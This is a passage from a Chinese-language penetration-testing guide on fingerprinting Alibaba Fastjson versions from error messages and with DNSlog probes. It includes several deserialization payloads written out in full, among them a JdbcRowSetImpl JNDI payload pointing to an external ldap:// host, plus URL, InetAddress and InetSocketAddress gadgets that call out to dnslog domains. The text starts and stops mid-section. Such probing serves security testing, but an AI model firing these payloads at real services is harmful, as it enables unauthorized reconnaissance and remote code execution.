 ```
```
#### 2.1.2.3 判断1.2.33<=version<=2.0.40
报错中都会直接显示版本号：
`fastjson1`中显示如下：
```
syntax error, expect {, actual EOF, pos 0, fastjson-version 1.2.83
```
`fastjson2`中显示如下：
```
Illegal syntax: , offset 34, character  , line 1, column 35, fastjson-version 2.0.40 {"@type":"java.lang.AutoCloseable"
```
但是需要注意的是`1.2.76<=version<=1.2.80`的时候，显示的版本都是`1.2.76`，原因是作者写死在代码里了，我提了个`issue`（[https://github.com/alibaba/fastjson/issues/4451](https://github.com/alibaba/fastjson/issues/4451)）：
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697618848395-642fa169-5385-4c04-bd1b-ee3bce7012ac.png#averageHue=%2325282c&clientId=u81795203-7cb4-4&from=paste&height=1040&id=u4cdec35e&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=293083&status=done&style=none&taskId=u8b5f4fc1-3eba-41d0-b33f-3c8e221d49a&title=&width=1920)
## 2.2 dnslog判断法
**特别说明：**
`dns`能出网并不代表存在`fastjson`漏洞！！！
另外，讨论`1.2.24`以前的版本没什么意义，因此基本不会在下文中涉及。
### 2.2.1 判断1.1.15<=version<=1.2.24
正常传参：
```json
{"name":"admin","email":"admin","content":"admin"}
```
`payload15`：
```json
{"name":"admin","email":"admin","content":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://aclarecpsj.dgrh3.cn/POC","autoCommit":true}}
```
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697619264576-2e2ed9d4-6f80-4b17-b686-f3bce4c8ec9e.png#averageHue=%23badfd2&clientId=u81795203-7cb4-4&from=paste&height=1040&id=ua241762b&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=148036&status=done&style=none&taskId=ud96661cb-8c5c-4ea5-a734-613b9258fca&title=&width=1920)
![image.png](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/1697619284000-8dfe2807-a838-4e5e-9bf0-217f92de81ee.png#averageHue=%23fcfbfa&clientId=u81795203-7cb4-4&from=paste&height=382&id=u524a0f15&originHeight=382&originWidth=1562&originalType=binary&ratio=1&rotation=0&showTitle=false&size=41988&status=done&style=none&taskId=u729d1f8b-78d3-4a09-9966-e63b3765f4d&title=&width=1562)
### 2.2.2 判断1.2.37<=version<=1.2.83
`payload16`：
```json
{{"@type":"java.net.URL","val":"http://rpdmvyfajp.dgrh3.cn"}:"aaa"}
```
### 2.2.3 判断1.2.9<=version<=1.2.47
`payload17`：
```json
{"username":{"@type":"java.net.InetAddress","val":"bjmgclhjrs.dgrh3.cn"}, "password":"admin"}
```
需要注意，有时候会报错如下，但是`dnslog`仍然会收到请求，这个是目标服务器的问题，多试就可以了：
```json
deserialize inet adress error
```
### 2.2.4 判断1.2.10<=version<=1.2.47
`payload18`：
```json
[{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},{"@type":"java.io.ByteArrayOutputStream"},{"@type":"java.net.InetSocketAddress"{"address":,"val":"6m2csu.dnslog.cn"}}]
```
除非对方有以下代码，否则`1.2.47`以后的版本都会报错：
```java
ParserConfig.getGlobalInstance().addAccept("java.lang.Class");
ParserConfig.getGlobalInstance().addAccept("java.io.ByteArrayOutputStream");
```
### 2.2.5 判断1.2.9<=version<=1.2.36
`payload19`：
```json
```
